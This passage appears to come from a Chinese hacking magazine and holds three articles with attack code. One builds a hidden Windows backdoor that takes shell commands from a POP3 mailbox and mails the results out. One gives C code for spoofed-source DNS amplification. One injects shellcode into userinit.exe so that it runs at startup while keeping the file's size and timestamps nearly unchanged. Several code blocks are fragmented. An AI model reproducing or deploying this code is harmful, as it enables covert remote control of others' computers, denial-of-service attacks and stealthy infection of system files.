对于免费的短信接口，http://sms.ruyi.com/ 是个很好的选择。只要有一张山东联通 GSM 的手机卡，并在该网站注册为会员就可以从该网站查询到自己发送或接收到的短信信息了，如图1所示。我之所以说可以免费，是因为我们将控制指令发送给 10001（联通的客户服务热线号码）是不收费的，并还能够在该网站检索到发送的控制信息。可惜大部分兄弟使用的是中国移动的手机卡，为了使用这个免费接口而换手机卡，实在是不划算。

下面我就以另一个接口为例来实现我们的远程控制软件。打开 http://appsms.mail.126.com/mailmms/smsnotify/reg_out.jsp?id=126sy，如图2所示。不禁眼前一亮！126 邮箱提供的随身邮不就是我们理想的短信接口吗？其资费是 10 元/月，不过提供了 3 天的试用期，哈哈，有钱的包月啦，没钱的（像我这样的）就只能尝尝鲜了。

##### 程序实现

废话少说，步入正题。首先需要按照提示开通随身邮服务，然后再注册一个邮箱接收我们通过手机发送的控制指令。注意，这里选用的邮箱一定要支持 POP3 协议。我选择的是 Sohu 免费邮箱。此时，我们电脑上运行的服务端的任务就是检索该信箱中的控制指令并执行，同时将执行结果发送到开通随身邮的 126 信箱，这样，我们就可以通过手机查看到执行结果了。

在发送执行结果的邮件时候，我们可以使用如下定义的结构体：

```cpp
typedef struct mail_tag{
    char mail_addr[255];
    char mail_from[255];
    char mail_to[255];
    char username[20];
    char password[20];
    char subject[255];
    char content[1024];
} MAIL;
```

接收邮件时使用如下定义的结构体：

```cpp
typedef struct readmail_tag{
    char pop3_addr[255];
    char pop3_user[255];
    ...
}
```

```c
char pop3_pass[255];
char pop3_subject[255];
char pop3_content[1024];
} RDMAIL;
```

剩下的问题就是编写发送执行结果的函数和读取控制指令的函数了。我们定义用于手机发送的控制命令的邮件主题为“cmd”，邮件正文格式为“cmd#需要执行的命令#”。比如“cmd#start calc.exe#”命令为打开计算器，“cmd#shutdown /s#”为关闭计算机，“cmd#d:\test.exe#”为运行“d:\test.exe”应用程序。总之，“cmd#”后面需要添加的是 DOS 命令，并且该命令需要以“#”作为结束符。OK，下面我们先编写检索控制指令的函数。

```c
int readmail(RDMAIL *rdmail)
{
    WSADATA wsadata;
    unsigned short version;
    version=0x0002;
    WSAStartup(version,&wsadata);

    sockaddr_in pop3_addr={0};
    pop3_addr.sin_family=AF_INET;
    pop3_addr.sin_port=htons(110);
    hostent *phost=gethostbyname(rdmail->pop3_addr);
    pop3_addr.sin_addr.S_un.S_addr=*(unsigned long *)phost->h_addr_list[0];

    SOCKET s=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    int ret=connect(s,(sockaddr *)&pop3_addr,sizeof(pop3_addr));
    if(ret<0){ quit(s); return 1; }

    char buffer[255]={0};
    recv(s,buffer,255,0);

    memset(buffer,0,255);
    strcpy(buffer,"user ");
    strcat(buffer,rdmail->pop3_user);
    strcat(buffer,"\n");
    send(s,buffer,strlen(buffer),0);
    recv(s,buffer,255,0);

    memset(buffer,0,255);
    strcpy(buffer,"pass ");
    strcat(buffer,rdmail->pop3_pass);
    strcat(buffer,"\n");
    send(s,buffer,strlen(buffer),0);
    recv(s,buffer,255,0);
    if(buffer[0]!='+') { quit(s); return 1; }
}
```

```c
// 认证完毕，开始检测信件
memset(buffer,0,255);
send(s,"retr 1\n",7,0);

char recvword[2048]={0};
ret=recv(s,recvword,2048,0);
if(recvword[0]=='-') { quit(s); return 1; }

recv(s,recvword,2048,0);
strlwr(recvword);
char *psubject=strstr(recvword,"\nsubject:");
if(psubject==NULL){ delmsg_quit(s); return 1; }

psubject+=9;
int i=0;
while(*psubject!='\r'){
    rdmail->pop3_subject[i]=*psubject;
    psubject+=1;
    i++;
}
rdmail->pop3_subject[i]='\0';

char *pcontent=strstr(recvword,"cmd#");
if(pcontent==NULL){ delmsg_quit(s); return 1; }

pcontent+=4;
i=0;
while(*pcontent!='#' && i<100){
    rdmail->pop3_content[i]=*pcontent;
    pcontent+=1;
    i++;
}

if(i==100){ delmsg_quit(s); return 1; }
rdmail->pop3_content[i]='\0';

send(s,"dele 1\n",7,0);
recv(s,buffer,255,0);
send(s,"quit\n",5,0);
closesocket(s);
WSACleanup();
return 0;
}
```

计算机端的服务程序检索完毕指令并执行后，还需要送出执行结果，用以实现这个功能的函数如下。

```cpp
int sendmail(MAIL *pmail)
{
    char *pmail_addr=pmail->mail_addr;
    char *pmail_from=pmail->mail_from;
    char *pmail_to=pmail->mail_to;
    char *pusername=pmail->username;
    char *ppassword=pmail->password;
    char pdata[1048]={0};
    strcpy(pdata,"from:");
    strcat(pdata,pmail->mail_from);
    strcat(pdata,"\r\n");
    strcat(pdata,"to:");
    strcat(pdata,pmail->mail_to);
    strcat(pdata,"\r\n");
    strcat(pdata,"subject:");
    strcat(pdata,pmail->subject);
    strcat(pdata,"\r\n\r\n");
    strcat(pdata,pmail->content);
    strcat(pdata,"\r\n");
    // 构造邮件数据

    Base64 bs;
    WSADATA data;
    unsigned short version;
    version=0x0202; // version 2.0
    WSAStartup(version,&data);

    sockaddr_in mail_addr={0};
    hostent *phost=gethostbyname(pmail_addr);
    mail_addr.sin_addr.S_un.S_addr=*(unsigned long*)phost->h_addr_list[0];
    mail_addr.sin_family=AF_INET;
    mail_addr.sin_port=htons(25);

    SOCKET s=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    int ret=connect(s,(sockaddr*)&mail_addr,sizeof(mail_addr));
    if(ret<0){
        quit(s);
        return 1;
    }

    char buffer[255]={0};
    recv(s,buffer,255,0);
    memset(buffer,0,255);
    // 开始登录SMTP服务器
    ret=send(s,"HELO ELIKZ\r\n",12,0);
    // 发送HELO
    if(ret<=0){
        quit(s);
        return 1;
    }

    ret=recv(s,buffer,255,0);
    if(ret<=0){
        quit(s);
        return 1;
    }

    memset(buffer,0,255);
    // 发送身份认证请求
    send(s,"AUTH LOGIN\r\n",12,0);
    recv(s,buffer,255,0);
    if(buffer[0]!=3&&buffer[1]!=3){
        quit(s);
        return 1;
    }
```

```cpp
    memset(buffer,0,255);
    strcpy(buffer,bs.base64_encode(pusername).c_str());
    strcat(buffer,"\r\n");
    // 发送BASE64编码的用户名
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!=3){
        quit(s);
        return 1;
    }

    memset(buffer,0,255);
    // 发送BASE64编码的密码
    strcpy(buffer,bs.base64_encode(ppassword).c_str());
    strcat(buffer,"\r\n");
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!=2&&buffer[1]!=3){
        quit(s);
        return 1;
    }

    // 认证完毕，开始发送邮件数据
    memset(buffer,0,255);
    strcpy(buffer,"MAIL FROM:<");
    strcat(buffer,pmail_from);
    strcat(buffer,">");
    strcat(buffer,"\r\n");
    // 发送mail from命令
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!=2&&buffer[1]!=5){
        quit(s);
        return 1;
    }

    memset(buffer,0,255);
    strcpy(buffer,"RCPT TO:<");
    strcat(buffer,pmail_to);
    strcat(buffer,">");
    strcat(buffer,"\r\n");
    // 发送rcpt to指令
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!=2&&buffer[1]!=5){
        quit(s);
        return 1;
    }

    memset(buffer,0,255);
    send(s,"DATA\r\n",6,0);
    recv(s,buffer,255,0);
    if(buffer[0]!=3&&buffer[1]!=5){
        quit(s);
        return 1;
    }
```

```c
strcpy(buffer,pdata);
strcat(buffer,"\r\n\r\n");
// 开始发送邮件数据
send(s,buffer,strlen(buffer),0);
memset(buffer,0,255);
recv(s,buffer,255,0);
if(buffer[0]!='2') {
    quit(s);
    return 1;
}
memset(buffer,0,255);
strcpy(buffer,"QUIT\r\n"); // 退出登录
send(s,buffer,strlen(buffer),0);
closesocket(s);
WSACleanup();
return 0;
```

执行命令并且提取执行结果的函数我使用了 DOS 命令的重定向符，轻松实现了该功能，其代码如下。

```c
void exec(char *cmd,char *presult)
{
    char szcmd[400]={0};
    strcat(szcmd,"/c ");
    strcat(szcmd,cmd);
    strcat(szcmd,">d:\\cmd.txt");
    // 执行该控制命令，将运行结果输出到 d:\cmd.txt 文件中
    HINSTANCE h=::ShellExecute(NULL,"open","cmd.exe",szcmd,NULL,SW_HIDE);
    WaitForSingleObject(h,INFINITE);
    Sleep(2000); // 读取执行结果
    FILE *fp=fopen("d:\\cmd.txt","r");
    int i=0;
    while(!feof(fp)&&i<100){
        presult[i]=fgetc(fp);
        i++;
    }
    presult[i]='\0';
    fclose(fp);
}
```

上面就是实现手机控制计算机的核心函数，接下来我们再编写主程序。

```c
void main(char argc,char *argv[])
{
    if(argc==2&&strcmp(argv[1],"-h")==0){
        hide(); // 添加-h参数隐藏DOS界面
    }
    RDMAIL rdmail={0};
    read_config(&rdmail); // 读取发信配置
    MAIL sdmail={0};
    send_config(&sdmail); // 读取收信配置
    while(1){
        Sleep(8000);
        // ...
    }
}
```

```c
// 登录POP3服务器的时间间隔（测试设为8秒）
readmail(&rdmail); // 登录POP3服务器获取控制指令
char *psubject=trim(rdmail.pop3_subject);
if(strcmp(psubject,"cmd")!=0){
    memset(rdmail.pop3_subject,0,255);
    memset(rdmail.pop3_content,0,1024);
    continue;
}
trim_content(rdmail.pop3_content);
printf("subject:%s\n",psubject);
printf("cmd:%s\n",rdmail.pop3_content);
char result[1024]={0};
exec(rdmail.pop3_content,sdmail.content); // 接收命令处理结果
strcpy(sdmail.subject,"cmd");
sendmail(&sdmail); // 发送命令执行结果
memset(rdmail.pop3_subject,0,255);
memset(rdmail.pop3_content,0,1024);
```

至此，整个程序的核心函数就已经讲解完毕了，其他的一些琐碎细节我就不详细分析了，大家可以看随文附带的源代码。下面再介绍一下编译后程序的使用方法。

##### 程序利用

首先注册一个 126 免费邮箱，登录后点击左边面板中的随身邮，按提示开通随身邮功能；并在随身邮高级设置中设置如图3所示的过滤。之后再到 mail.sohu.com 注册一个免费 Sohu 邮箱（如 test@sohu.com），登录邮箱删除其中的所有信件。打开程序中的 ReadMail.ini 配置文件，将信息修改为 Sohu 邮箱注册的用户名和密码，最后运行服务端程序即可。



图3

发送指令的方法是手机编辑短信“test@sohu.com（空格）cmd（空格）cmd#控制命令#”发送到 163024，一条控制信息 1 毛钱，够便宜的了，接收命令回显免费回复，否则收到新邮件提示短信后还要回复“r”读取。如果你不需要回显执行结果的功能，在随身邮过滤功能中拒绝掉主题为“cmd”的邮件即可。短信中的“test@sohu.com”是你自己注册的免费邮箱。程序运行结果如图4所示；如果想隐藏显示窗口的话，运行程序的时候添加“-h”参数即可。



图4

我开通随身邮测试本程序，3小时未发生错误。需要注意的是：控制命令中的文件路径不能包含汉字；如果文件路径中含有空格，需要将运行的程序路径用双引号括起来。最后，我再给大家提供几个实用的例子，具体如下。

```c
cmd#ver# // 获取Windows版本信息
cmd#shutdown /s# // 关闭计算机
cmd#"C:\Program Files\Windows Media Player\wmplayer.exe" d:\music\1.mp3#
// 运行Windows Media Player并且打开1.mp3
cmd#d:\music\1.mp3# // 播放1.mp3，功能同上
```

总之，控制指令能执行所有的DOS命令，熟练使用这个程序，只有你想不到的，没有你做不到的。

适合读者：编程爱好者  
前置知识：VC

## DNS放大攻击原理、实现与防御

文 / Swords



在日常工作中，我们常见的涉及域名（DNS）管理方面的黑客攻击，主要包括以下三种。

- 域名劫持：通过采用黑客手段控制域名管理密码，将该域名的 NS 记录指向到黑客可以控制的 DNS 服务器，然后通过在该 DNS 服务器上添加相应域名记录，从而使网民访问该域名时，进入黑客所指定的内容。
- 域名欺骗（缓存投毒）：通过采用黑客手段控制 DNS 缓存服务器，然后将错误的域名记录存入缓存中，从而使所有使用该缓存服务器的用户得到错误的 DNS 解析结果。DNS 协议由于其自身的弱点——使用16位通信 ID，使得黑客可以伪造 DNS 查询响应报文，导致黑客可以很容易地实施此种攻击。
- DNS 放大攻击（DNS amplification attacks）：通过向一系列无辜的第三方 DNS 服务器发送大量的查询请求（小的和欺骗性的询问信息），这些查询请求数据包中的源 IP 地址为被攻击主机的 IP 地址，DNS 服务器将大量的查询结果发送给被攻击主机，使被攻击主机所在的网络拥塞或拒绝服务。

对于 DNS 的攻击，目前主要有三种利用方法：RD 递归域名请求服务、AXFR 区域转移请求和 DDNS 循环查询。本文主要介绍前两种方法的编程实现。

## DNS报文结构

### 1) DNS数据报头

```c
typedef struct _dns {
  unsigned short id;
  // 标识，通过它客户端可以将DNS的请求与应答相匹配
  unsigned short flags;
  // 状态: [QR | opcode | AA| TC| RD| RA | zero | rcode]
  unsigned short quests;   // 查询问题数
  unsigned short answers;  // 回答问题数
  unsigned short author;   // 授权资源记录数
  unsigned short addition; // 额外资源记录数
} DNS;
```

在 flags 中，QR 判断结果为 0 则查询，为 1 则响应报文；opcode 用于区别查询类型，AA 用于判断是否为授权回答，TC 用于判断是否可截断，RD 用于判断是否是期望递归查询，RA 用于判断是否为可用递归，zero 则必须为 0，rcode 为返回码字段。

### 2) DNS查询数据报

```c
typedef struct _query {
  unsigned char *name;
  // 查询的域名，单数字节的值必须为0到63之间
  unsigned short type;
  // 查询类型，大约有20个不同的类型
  unsigned short classes;
} QUERY;
```

```c
// 查询类，通常是 1，即互联网地址
QUERY;
```

###### 3）DNS 响应数据报

```c
typedef struct response {
    unsigned char *name;      // 查询的域名
    unsigned short type;      // 查询类型
    unsigned short classes;   // 类型码
    unsigned int ttl;         // 生存时间
    unsigned short length;    // 资源数据长度
    unsigned int addr;        // 资源数据
} RESPONSE;
```

##### 构造查询数据包

```c
DNS stDns;
QUERY stQuery;
RESPONSE stResponse;
IPHEADER stIpHeader;

stDns.id = 0x2007;
stDns.flags = htons(0x0100);
stDns.quests = htons(1);
stDns.answers = htons(0);
stDns.author = htons(0);
stDns.addition = htons(0);

/* 域名按标签长度+内容编码，最后以0结束 */
```

```c
stQuery.name = (unsigned char*)malloc(...);
memcpy(stQuery.name, "3www9dream2fly3net0", ...);
stQuery.type = 1;
stQuery.classes = 1;

stIpHeader.sourceip = AttackIp;
stIpHeader.destip = DnsServerIp;
```

通过以上代码伪造 DNS 数据包，即可向 DNS 服务器发送域名查询报文，返回的应答会发送给被攻击主机，从而达到放大并隐藏攻击源的目的。文中还提到可借助 WinPcap 实现发送部分。

对于 DNS 攻击防范，可直接过滤掉 TCP 和 UDP 源端口为 53 的可疑数据包。

- 适合读者：编程爱好者、木马爱好者
- 前置知识：汇编、PE 文件结构

#### 感染系统文件实现日后控制

文/图 南宁 张力 / StarsunYzL

在众多随系统启动的方法中，感染系统文件是一种较隐蔽方式，可做到文件大小和时间基本不变，且无需修改注册表，不易被发现。下面详细介绍该方法。

正如所见，这涉及到 PE 文件操作，因此需要对 PE 文件结构有足够了解。本文不展开全部结构细节，仅说明与实现相关的知识。

##### 分析

方法思路：将一段代码添加到系统文件中，使其先于原程序执行。主要步骤包括：搜索各节尾部可用空间、修改入口点指向新增代码，并在代码执行后跳回原入口继续运行。

PE 文件中的节按 `IMAGE_NT_HEADERS.OptionalHeader.FileAlignment` 对齐。若对齐值为 200h，则节起始需为其整数倍。由此会在节尾产生未使用空间，可用于插入代码；若空间不足则需进一步处理。如果各节的剩余空间都不足，还可以新建一个节来存放添加的代码，但这样会使文件变大，因此本文不考虑这种情况。添加好代码后，还需要修改系统文件的入口点（`IMAGE_NT_HEADERS.OptionalHeader.AddressOfEntryPoint`），使它指向添加的代码，这样系统文件运行时，我们添加的代码就会先运行。运行完添加的代码，还需要跳到系统文件的原入口点，以便继续运行系统文件。因为要写文件，所以这个文件不能是正在运行的程序，但是这个文件又必须是随系统启动的，那有没有一个既随系统启动，又不常驻内存的文件呢？有！那就是 userinit.exe，这个程序是在系统启动时负责一些初始化工作，然后加载桌面的，干完它的工作后自身就退出了。

还有个问题得考虑一下，那就是 API 的使用问题。我们添加的代码要用到一个 API：WinExec，这个 API 位于 Kernel32.dll 中，所有的程序都会加载 Kernel32.dll，因此只需要得到 WinExec 的地址就可以调用了。幸运的是，WinExec 的地址在所有程序中都是一样，因为所有的程序加载 Kernel32.dll 的位置都是一样的，因此我们可以在本地程序中获取 WinExec 的地址用于添加的代码中，但是这样的话本文的看点就大打折扣了。这里介绍一种在 ShellCode 中常用的动态获取 API 地址的方法。获取 API 地址可以用 LoadLibrary、GetModuleHandle 和 GetProcAddress 这 3 个 API，它们都位于 Kernel32.dll 中。LoadLibrary 和 GetModuleHandle 的地址也可以用 GetProcAddress 来获取，因此只需要得到 GetProcAddress 的地址，就可以获取其它 API 的地址了。

GetProcAddress 是 Kernel32.dll 的导出函数，只要搜索 Kernel32.dll 的导出表就一定能找到 GetProcAddress 的地址。现在我们只要得到 Kernel32.dll 的基址，根据 PE 文件结构的知识搜索导出表并不是难事。等等！细心的读者一定发现了，GetProcAddress 需要两个参数，第二个参数是要获取地址的函数名，第一个参数是个模块句柄，通常情况下这个模块句柄是用 GetModuleHandle 获得的，但是现在还没有得到 GetModuleHandle 的地址，怎么得到这个模块句柄呢？其实这个模块句柄的值就是模块的基址。

现在所有的问题就集中于获取 Kernel32.dll 的基址，一旦得到 Kernel32.dll 的基址，就可以搜索 Kernel32.dll 的导出表得到 GetProcAddress 的地址，再用 GetProcAddress 获取 LoadLibrary 和 GetModuleHandle，有了这 3 个 API 的地址，再获取别的 API 地址就不成问题了。那么，Kernel32.dll 的基址怎么获取呢？这里需要先了解一些东西，首先是 TEB 和 PEB。TEB（Thread Environment Block，线程环境块），每个线程都有一个 TEB 结构，保存着线程的一些重要信息，并且 TEB 结构的地址总是在段寄存器 `fs:[0h]` 的地方，TEB 结构偏移 30h 的地方保存着 PEB 结构的地址。PEB（Process Environment Block，进程环境块），同样，PEB 结构里保存着进程的一些重要信息，其中 PEB 结构偏移 0Ch 的地方保存着 PEB_LDR_DATA 结构的地址，PEB_LDR_DATA 的结构如下：

```c
typedef struct _PEB_LDR_DATA
{
    ULONG      Length;                    // +00h
    BOOLEAN    Initialized;               // +04h
    PVOID      SsHandle;                  // +08h
    LIST_ENTRY InLoadOrderModuleList;     // 0Ch
    LIST_ENTRY InMemoryOrderModuleList;   // 14h
    LIST_ENTRY InInitializationOrderModuleList; // 1Ch
} PEB_LDR_DATA, *PPEB_LDR_DATA;
```

其中 PEB_LDR_DATA 结构偏移 1Ch 的地方指向 LDR_MODULE 链表结构中相应的双向链表头指针。LDR_MODULE 结构部分如下：

```c
typedef struct _LDR_MODULE
{
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    PVOID      BaseAddress;
} LDR_MODULE, *PLDR_MODULE;
```

该链表的第二个节点指向的就是保存着 Kernel32.dll 模块的相关信息，该节点 LDR_MODULE 结构中的 BaseAddress（偏移 8h，即 LIST_ENTRY 的大小）就是 Kernel32.dll 的基址。整个过程比较让人费解，TEB 和 PEB 的结构非常大，文中不便列出，有兴趣的朋友可以到 http://undocumented.ntinternals.net 搜索一下。下面给出获取 Kernel32.dll 基址的代码。

```asm
mov eax, fs:[30h]            ; 得到 PEB 结构地址
mov eax, [eax + 0ch]         ; 得到 PEB_LDR_DATA 结构地址
mov esi, [eax + 1ch]         ; InInitializationOrderModuleList
lodsd                        ; 得到 Kernel32.dll 所在 LDR_MODULE 结构的 InInitializationOrderModuleList 地址
mov edx, [eax + 8h]          ; 得到 BaseAddress，即 Kernel32.dll 基址
```

此外建议初学者不必深入研究，直接使用代码即可。得到了 Kernel32.dll 的基址，就很容易搜索 Kernel32.dll 导出表得到 GetProcAddress 的地址了，方法如下：首先定位到导出表的地址，以 NumberOfNames 的值作为循环次数来构造一个循环，然后在循环中遍历 AddressOfNames 指向的函数名数组，找到 GetProcAddress 并记下 GetProcAddress 在数组中的索引；以同样的索引值从 AddressOfNameOrdinals 指向的数组中取出对应的序数，再以这个序数从 AddressOfFunctions 指向的地址数组中取出对应的值，就是 GetProcAddress 的 RVA 了。有了 GetProcAddress 的地址就可以获取 WinExec 的地址了，至此，所有问题解决！

```asm
repz cmpsb
.break .if ZERO?
    ; 找到跳出循环
    pop ecx
    pop esi
    add esi, 4
    inc ecx
.until ecx >= [eax].NumberOfNames
...
; 得到 GetProcAddress 地址
push 00636578h
; 在栈中构造 WinExec
push 456e6957h
push esp
push edx
call esi
; 调用 GetProcAddress 获取 WinExec 地址
push 00444D43h
; 在栈中构造 CMD
push esp
push SW_SHOW
push [esp + 4]
call eax ; 调用 WinExec
...
```

##### 代码实现

看了这么长的文字说明是不是头晕了？坚持！成功就在眼前了！接下来是我们要添加到 userinit.exe 中的代码 AddCode.asm，这段代码会在 userinit.exe 运行前先运行 CMD。具体代码如下。

```asm
ADD_CODE_START equ this byte
assume fs:flat
mov eax, fs:[30h]
mov eax, [eax + 0Ch]
mov esi, [eax + 1Ch]
lodsd
mov edx, [eax + 8h]
; 得到 Kernel32 基址
...
assume eax:ptr IMAGE_EXPORT_DIRECTORY
mov esi, [eax].AddressOfNames
add esi, edx
push 00007373h
; 在堆栈中构造 GetProcAddress
push 65726464h
push 41636f72h
push 50746547h
push esp
...
.GetProcAddress 的长度，包含 0
```

由于这段代码中用到的字符串比较少，所以我采用了在堆栈中构造的方法，这样可以避免使用全局变量而遇到的重定位问题（关于重定位问题请看上期我的文章《NT 系统中利用远程线程实现无进程无 DLL》一文）。其实我们可以直接搜索 Kernel32.dll 的导出表得到 WinExec 的地址，这里为了强调代码的通用性，先获取了 GetProcAddress 的地址，再用 GetProcAddress 获取 WinExec 的地址。下面的代码负责将上面的 AddCode.asm 添加到 userinit.exe 中。

```asm
.586
.model flat, stdcall
```

```asm
option casemap:none
include windows.inc
include kernel32.inc
include user32.inc
includelib kernel32.lib
includelib user32.lib

.const
szUserinit db "c:\\windows\\system32\\userinit.exe",0
szFmt db "已添加代码到文件偏移:%08x处，代码大小:%d字节，新入口点RVA:%08x",0

.data?
hFile dd ?
hMapFile dd ?
lpFile dd ?
lpCodeRVA dd ?
lpCodeOffs dd ?
szMsg db 128 dup(?)

.code
include AddCode.asm
Start:
invoke CreateFile,offset szUserinit,GENERIC_READ or GENERIC_WRITE,NULL,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL
; ...（后续代码略）
```

```asm
; ...（承接左栏代码）
or [ebx].Characteristics, IMAGE_SCN_MEM_READ or IMAGE_SCN_MEM_EXECUTE
add [ebx].Misc.VirtualSize, ADD_CODE_LENGTH
add eax, lpFile
invoke RtlMoveMemory,eax,offset ADD_CODE_START,ADD_CODE_LENGTH
mov edi,[esi].OptionalHeader.AddressOfEntryPoint
add edi,[esi].OptionalHeader.ImageBase
push lpCodeRVA
pop [esi].OptionalHeader.AddressOfEntryPoint
; ...
invoke MessageBox,NULL,offset szMsg,offset szMsg,MB_OK
invoke ExitProcess,0
end Start
```

这段代码我使用了内存映射文件的方法来操作文件，这样可以避免使用 WriteFile 来写文件，因为 WriteFile 会造成文件时间发生变化。另外，还要注意要给节加上 IMAGE_SCN_MEM_READ 和 IMAGE_SCN_MEM_EXECUTE 属性，这样节才是可读和可执行的。

##### 程序测试

将以上代码编译后运行，我们就可以看到如图 1 所示的效果了，注销一下就可以看到 CMD 跳出来了，这证明达到了感染系统文件实现自启动的要求了。最后说明一下，以上代码我在 Windows XP SP2 + Masm32 9 中测试成功。

